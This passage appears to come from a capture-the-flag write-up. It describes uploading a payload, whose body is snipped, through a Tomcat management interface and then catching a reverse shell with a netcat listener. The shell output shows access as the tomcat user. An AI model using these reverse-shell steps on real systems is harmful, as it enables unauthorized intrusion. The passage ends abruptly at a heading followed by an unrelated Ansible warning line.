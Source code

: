 ```http

...[PAYLOAD SNIPPED]...
-----------------------------414677531440330725221748963814--
```

The payload was uploaded successfully.

![](images/Pasted%20image%2020211002004756.png)

Start the listener.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Click on the linked name of the payload in the Tomcat management interface to execute the reverse shell.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.164] from (UNKNOWN) [10.10.10.250] 41578
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

---

## Tomcat to Luis


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'